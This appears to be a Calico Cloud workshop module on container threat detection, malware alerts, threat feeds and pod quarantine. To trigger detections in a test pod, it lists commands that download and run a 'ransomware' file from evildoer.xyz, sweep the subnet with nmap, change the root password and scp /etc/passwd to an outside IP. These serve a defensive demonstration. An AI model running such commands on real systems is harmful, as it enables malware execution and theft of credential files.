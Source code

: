 # Module 3 - Malware protection, access control and quarantine with Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. Navigate to `Threat Defense > Container Threat Detection` and click the `Enable Container Threat Detection` button.

   ![enable-threat-detection](https://github.com/tigera-solutions/cc-eks-visualize-identify-security-gaps/assets/104035488/89d290a7-2aef-4a6b-8813-11bf94db2577)

   Perfect! Now, any suspicious activities will generate an alert. Let's try some.

   To see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

## Malware execution alert and security events

Security events suggest the possible presence of a threat actor in your Kubernetes cluster. These events can take various forms, such as a DNS request to a suspicious domain, the activation of a Web Application Firewall (WAF) rule, unauthorized access to sensitive files, or the detection of malware. Calico Cloud offers a centralized dashboard for security engineers and incident response teams to efficiently oversee and respond to these threat alerts. The advantages of using Calico Cloud in this context include:

- A filtered list of critical events with recommended remediation
- Identify impacts on applications
- Understand the scope and frequency of the issue
- Manage alert noise by dismissing events (show/hide)

To test this feature, we can download a file containing the hash of malware and execute it inside the pod attacker.

1. Execute the bash inside the pod attack in the way you can interact with its shell prompt:

   ```bash
   kubectl exec attacker -it -- /bin/bash
   ```

2. From the bash inside the pod `attacker`, execute the following command to download the malware, change its permission and run it.

   ```bash
   wget http://evildoer.xyz/ransomware
   chmod +x ransomware
   ./ransomware
   ```
   
3. Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   ![security-events](https://github.com/tigera-solutions/cc-eks-visualize-identify-security-gaps/assets/104035488/0264703a-ff38-4fc5-b65a-24ef187803ee)

   Because the `ransomware` file has a hash that identifies it as malware, Calico will create a **Malware** event indicating its execution event. Additionally, a security event showing the modification of the file permission (`chmod +x ransomware`) will be created as well.

   Optionally, you can also try the following commands and observe the security events that are created;
   
   ```bash
   apk add nmap
   nmap -sn $(hostname -i)/24
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```
   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security` again.

## Threat Feeds

In modern cloud-native security, threat intelligence feeds are vital for monitoring and tracking the IP addresses and domains associated with known malicious actors. Calico Cloud integrates threat intelligence feeds, including AlienVault, into its default security policies. This means that right from the outset, any traffic directed to suspicious IP addresses or domains is automatically blocked without requiring additional setup.

1. Explore the Threat Feeds available in Calico Cloud UI in the `Threat Defense` > `Threat Feeds`. Click on each one to visualize the lists of IP addresses or domains.

   ![threat-feeds](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/719cb334-e981-4e5e-8ef4-b37eea4a422b)

2. Using the pod attacker, try to connect to some of the IP addresses and domains you found in the alienvault lists.

   ```bash
   curl -m2 -vvvvv 
   ```

3. Wait a minute and go to the Calico Cloud UI in the `Activity` > `Alerts`. You should be able to see the alerts for the connection attempt.

   ![activity-alerts](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/ed2aad8c-f713-4e0e-b5c5-8abdb299fdb4)

## Quarantine a workload

Suppose you have a compromised workload in your environment and want to conduct further investigation on it. In that case, you should not terminate the workload but isolate it so it will not be able to cause damage or spread laterally across your environment. In this situation, you should quarantine the pod by applying a security policy that will deny all the egress and ingress traffic and log all the communications attempts from and to that pod.

We have the `quarantine` policy created in the `security` tier. This policy has a label selector of `quarantine = true`. Let's see how it works.

1. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if that's the case.).

   - Test the connection to a local service

     ```bash
     curl -m3 http://vote.vote
     ```

   - Test the connectivity with the Kubernetes API

     ```bash
     curl -m3 -k https://kubernetes:443/versions
     ```  

   - Test the connectivity with the internet

     ```bash
     curl -m3 http://neverssl.com
     ```  

2. Label the attacker pod with `quarantine = true`. 

   ```bash
   kubectl label pod attacker quarantine=true
   ```

3. Repeat the tests from step 1. Now, as you can see, they cannot establish communication with any of the destinations.

--- 
[:arrow_right: Module 4 - Enforcing security policy to stop C&C attacks](/mod/module-4-security-policies.md)   <br>

[:arrow_left: Module 2 - Analyze service-to-service communication](/mod/module-2-analyze-communications.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
